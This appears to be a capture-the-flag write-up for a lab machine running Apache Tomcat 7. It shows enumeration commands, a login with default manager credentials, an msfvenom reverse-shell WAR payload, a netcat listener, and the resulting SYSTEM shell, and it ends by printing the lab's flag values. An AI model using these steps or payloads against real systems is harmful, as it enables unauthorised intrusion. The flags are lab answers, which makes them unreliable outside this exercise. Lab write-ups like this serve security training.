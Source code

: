 Run an nmap scan of target

```php
nmap -A -sV -Pn 10.129.136.9

8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

```

Were interested in this Apache server that could be hosting some kind of app
Run a `gobuster` and `ffuf` scan on the target

```php
ffuf -u http://10.129.136.9:8080/FUZZ -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404

gobuster dir -u http://10.129.136.9:8080 -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-error
```

Our points of interest
`http://10.129.136.9:8080/` - default web page for `Apache Tomcat/7.0.88`
`http://10.129.136.9:8080/docs/` - documentation page for `Apache Tomcat`
`http://10.129.136.9:8080/manager` - this is what we want

We find a login prompt to authenticate, we have no credentials so lets first try some default ones and see what hits.

```
conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.
```

```php
https://gist.github.com/0xRar/70aae102af56495b7be51486d363c4bd
tomcat : s3cret
```

Upon logging in we see an admin panel that lists applications running, we have the ability to upload `WAR` files 
Lets use `msfvenom` to create a `WAR` file payload to upload, when triggered it we will set up a `netcat` listener for this reverse shell. The goal is to gain remote command execution. 

```php
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.209 LPORT=443 -f war > revshell.war
```

Uploading it creates a path called `/revshell`

An a separate terminal we setup a listener

```php
sudo nc -nvlp 443
[sudo] password for drew: 
Listening on 0.0.0.0 443
```

We unzip our war file to find a `ddpcwbqmrwlg.jsp`, this is were our payload is located, when we navigate to this web path we trigger the payload

```php
http://10.129.39.5:8080/revshell/ddpcwbqmrwlg.jsp
```

We have gained a reverse shell on the Jerry machine 

```php
Connection received on 10.129.39.5 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

We navigate to the Desktop directory through the Administrator user to find the User and Root flags in a file called `2 for the price of 1.txt`

User Flag: `7004dbcef0f854e0fb401875f26ebd00`
Root Flag: `04a8b36e1545a455393d067e772fe90e`

We have rooted this machine.
